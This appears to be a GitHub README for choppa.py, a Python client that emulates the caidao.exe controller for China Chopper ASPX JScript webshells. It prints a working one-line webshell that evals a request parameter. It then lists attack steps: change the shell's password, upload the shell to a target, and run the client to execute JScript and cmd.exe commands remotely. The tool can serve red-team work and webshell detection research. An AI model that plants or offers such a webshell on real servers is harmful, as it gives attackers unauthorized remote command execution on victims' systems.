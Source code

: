 
# choppa.py

choppa.py is a python implementation of caidao.exe, which includes minimal implementations
of caidao.exe's features exclusively for ASPX Jscript variants of China Chopper webshells such as:

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["password"],"unsafe");}</script>
```

Emulated caidao.exe features include:
- inline Jscript execution
- Virtual terminal emulation with Jscript and cmd.exe /c

choppa.py is not fully featured, and does not include file upload/download or support
for other webshell types referenced in caidao.exe such as ASP and PHP. These features are subject 
to future implementations.

#########################
INSTRUCTIONS:
#########################
1. Change webshell password

<script language="JScript" runat="server">function Page_Load(){eval(Request["Nonqjbexznaoynzrfuvfgbbyf"],"unsafe");}</script>

2. Upload ASPX webshell on target
3. python choppa.py -p Nonqjbexznaoynzrfuvfgbbyf -m MODE
